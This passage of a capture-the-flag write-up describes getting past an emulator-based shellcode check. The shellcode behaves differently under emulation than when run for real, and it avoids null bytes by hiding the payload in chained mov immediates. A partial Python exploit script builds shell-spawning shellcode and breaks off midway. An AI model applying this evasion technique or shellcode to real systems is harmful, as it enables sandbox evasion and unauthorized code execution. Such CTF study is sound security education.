 ### Executing arbitrary shellcode
To execute arbitrary shellcode I used the fact that all registers except `RSP` are zero in the emulation, but not when the shellcode is actually run. We can use this to change the behavior of our shellcode when run in the emulation vs for real. One more little hurdle is that the shellcode can't contain null bytes. My solution was based on a technique I learned while pwning JIT engines: I encoded my shellcode into `mov` instructions and jumped to an offset based on the different registers contents to trigger my payload. With each x64 mov instruction we have an 8 byte immediate value that we can use to encode 6 bytes of shellcode and 2 bytes for a jump to chain our gadgets. This is how the shellcode looks in memory:

![Memory layout](/assets/cscg-unicorn-1.png)

If `rax` is not zero, the shellcode jumps to an offset which contains our actual payload:

![Memory layout](/assets/cscg-unicorn-2.png)

### Exploit
```python
def emit(ins):
    a = asm(ins)
    if len(a) > 6:
        print("too big: ", ins, len(ins))
        exit(0)
    a += (6 - len(a))*b"\x90"
    a += asm("jmp $+4")

    inst = f"mov rax, {hex(int.from_bytes(a, 'little'))}"

    return asm(inst)

print("[+] building sc")
sc = '''
test rax, rax
jnz $+4
'''

sc = asm(sc)

sc += emit("push 0x68")
sc += emit("mov edx, 0x732f2f2f")
sc += emit("shl rdx, 32")
sc += emit("mov ebx, 0x6e69622f")
sc += emit("add rdx, rbx")
sc += emit("push rdx")
sc += emit("mov rdi, rsp")

sc += emit("mov esi, 0x10101010")
sc += emit(f"sub esi, {hex(0x10101010 - 0x6873)}")
sc += emit("push rsi")

```